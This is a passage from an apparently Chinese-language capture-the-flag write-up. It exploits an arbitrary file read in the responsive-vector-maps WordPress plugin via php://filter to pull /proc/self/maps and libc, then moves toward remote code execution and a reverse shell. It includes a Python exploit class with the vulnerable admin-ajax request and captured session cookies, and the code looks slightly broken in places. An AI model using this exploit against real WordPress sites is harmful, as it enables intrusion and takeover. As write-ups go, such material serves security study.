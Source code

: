 但是有很多标签导致无法读取完整，这里采用的就是用php://filter/下载maps和libc.so：

```
/usr/lib/x86_64-linux-gnu/libc.so.6
/proc/self/maps
```

对于题目而言，改改payload的这个remote类：

```python
def __init__(self, url: str) -> None:
        self.url = url
        self.session = Session()
        self.session.headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36",
            "Cookie":"wordpress_=subscriber%7C1720336162%7CpgTrhwuO3kuzcmwR58cvhthcb45qUx7UkYRiYDYPlW1%7Cb847e13631b08d8e6cb3528b7b3ffe5cfc26e3dd7be5a4dc9dcdc0151c0be873; chkphone=acWxNpxhQpDiAchhNuSnEqyiQuDIO0O0O; Hm_lvt_2d0601bd28de7d49818249cf35d95943=1720026818,1720091541,1720161557; HMACCOUNT=06D642FA6D3CD649; Hm_lpvt_2d0601bd28de7d49818249cf35d95943=1720161560; PHPSESSID=6fd15deed30423894715ced0e98b545f; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_=subscriber%7C1720336162%7CpgTrhwuO3kuzcmwR58cvhthcb45qUx7UkYRiYDYPlW1%7Ce0c1af65c1951fece8672cc3b08c4d583a056923594d950558734c06b49e22b8; wp-settings-time-5=1720163412"}
    def send(self, path: str) -> Response:
        """Sends given `path` to the HTTP server. Returns the response.
        """
        print(path)
        req = self.session.post(self.url + "/wp-admin/admin-ajax.php?action=rvm_import_regions&nonce=5&rvm_mbe_post_id=1&rvm_upload_regions_file_path="+quote(path))
        return req
        #return self.session.get(self.url + "/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php/?url=" + quote(path))
        
    def download(self, path: str) -> bytes:
        """Returns the contents of a remote file.
        """
        path = f"php://filter/convert.base64-encode/resource={path}"
        response = self.send(path)
        print(response)
        data = response.re.search(b" name=\"(.*)\[\]", flags=re.S).group(1)
        try:
            return base64.decode(data)
        except Exception as e:
            print(e)
            return data
```

然后本地生成payload打RCE，通过 responsive-vector-maps 的任意文件读来发反弹 shell：

RVM 的 Subscriber+ 读：

[![img](https://img2024.cnblogs.com/blog/3259464/202407/3259464-20240711155426630-1828297962.png)](https://img2024.cnblogs.com/blog/3259464/202407/3259464-20240711155426630-1828297962.png)

[![img](https://img2024.cnblogs.com/blog/3259464/202407/3259464-20240711154037598-921784113.png)](https://img2024.cnblogs.com/blog/3259464/202407/3259464-20240711154037598-921784113.png)
